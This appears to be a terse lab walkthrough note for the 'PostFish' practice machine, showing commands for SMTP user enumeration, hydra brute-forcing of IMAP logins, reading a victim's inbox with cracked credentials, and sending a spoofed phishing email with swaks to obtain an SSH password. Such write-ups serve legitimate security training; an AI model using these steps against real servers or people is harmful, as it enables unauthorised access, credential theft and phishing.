








Using users from the webpage at port [[PG Practice/PostFish/80]]

We can check if they exist:
```
smtp-user-enum -M VRFY -U users.txt -t 192.168.208.137
```

Then checking more users:
```
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 192.168.208.137
```
]
Now adding these to users.txt and using hydra:
```
hydra -L users.txt -P users.txt imap://192.168.245.137
```

We have creds.

Now checking messages:
```
curl -k 'imaps://192.168.245.137/INBOX;MAILINDEX=1' --user sales:sales
```


Now preparing a body for email to send:

Now we can setup a receiver and send a mail:
```
sudo swaks -t Brian.Moore@postfish.off --from it@postfish.off --server 192.168.245.137 -body @body.txt -header "Subject:Problems"
```


Using this password we can login through ssh at port [[PG Practice/PostFish/22]]
